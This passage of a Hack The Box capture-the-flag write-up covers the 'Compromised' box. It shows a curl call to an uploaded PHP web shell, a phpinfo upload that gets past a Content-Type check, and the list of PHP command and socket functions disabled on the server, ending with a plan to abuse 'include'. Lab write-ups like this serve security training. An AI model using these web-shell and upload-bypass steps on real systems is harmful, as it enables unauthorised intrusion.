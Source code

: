 Let us try to run commands now.
```console
local@local:~/Documents/htb/boxes/compromised$ curl http://10.10.10.207/shop/vqmod/xml/shell.php?cmd=whoami
File is successfully uploaded
```
But I was not able to run commands. Looks like the function `system` is disabled on the box.

### Listing out the disabled functions
Let us upload another file to with following contents.
```php
<?php
phpinfo();
?>
```
This file is also uploaded using the method above by changing the Content-Type.

And from the output of the phpinfo, following commands are seem to be disabled on the box.
```php
system
passthru
popen
shell_exec
proc_open
exec
fsockopen
socket_create
curl_exec
curl_multi_exec
mail
putenv
imap_open
parse_ini_file
show_source
file_put_contents
fwrite
pcntl_alarm
pcntl_fork
pcntl_waitpid
pcntl_wait
pcntl_wifexited
pcntl_wifstopped
pcntl_wifsignaled
pcntl_wifcontinued
pcntl_wexitstatus
pcntl_wtermsig
pcntl_wstopsig
pcntl_signal
pcntl_signal_get_handler
pcntl_signal_dispatch
pcntl_get_last_error
pcntl_strerror
pcntl_sigprocmask
pcntl_sigwaitinfo
pcntl_sigtimedwait
pcntl_exec
pcntl_getpriority
pcntl_setpriority
pcntl_async_signals
```
Almost all commands that are used to execute shell commands are disabled. But `include` is not in this list, so we can include any files that are on the web server that can be read by www-data.
